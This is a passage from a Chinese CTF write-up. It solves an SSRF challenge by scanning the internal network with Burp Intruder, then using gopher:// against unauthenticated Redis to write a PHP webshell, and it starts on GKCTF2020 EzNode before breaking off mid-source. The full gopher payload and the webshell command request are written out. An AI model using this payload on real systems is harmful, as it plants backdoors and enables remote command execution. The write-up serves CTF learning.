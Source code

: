 可以看到，确实是ban掉了`file://` `dict` 等关键字。

但是flag貌似并不在这台机器上面；

读取/etc/hosts和/proc/net/arp文件之后都没有发现什么有用的东西，ifconfig回显里面给出了本机的内网ip，于是去尝试爆破C段；

 

#### 利用bp的intruder模块爆破C段

发到intruder，设置Position和Payload，在xx.xx.xx.11发现了回显：

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120171432.png)

继续尝试爆破端口，发现6379的redis报错（其实猜也能猜，一般就是3306和6379）

 

#### 利用gopher协议打内网未授权redis

之前说过ban了dict，我们这里还有gopher协议；

直接往web路径写shell：

```
gopher://173.169.113.11:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2434%0D%0A%0A%0A%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```



直接前端提交：

```
173.169.113.11/shell.php?cmd=cat%20/flag
```

得到flag

 

 

 

### [[GKCTF2020\]EZ三剑客-EzNode](https://buuoj.cn/challenges#[GKCTF2020]EZ三剑客-EzNode)

考点：NodeJs审计、settimeout函数漏洞

参考>>[Guoke师傅](https://guokeya.github.io/post/a45x0caHd/)

打开页面是个计算器，给了源码：

```
const express = require('express');
const bodyParser = require('body-parser');
 
const saferEval = require('safer-eval'); // 2019.7/WORKER1 找到一个很棒的库
 
const fs = require('fs');
 
const app = express();
 
 
app.use(bodyParser.urlencoded({ extended: false }));
app.use(bodyParser.json());
 
// 2020.1/WORKER2 老板说为了后期方便优化
app.use((req, res, next) => {
  if (req.path === '/eval') {//如果请求路径是/eval，就执行
    let delay = 60 * 1000;//定义一个变量delay
    console.log(delay);
```
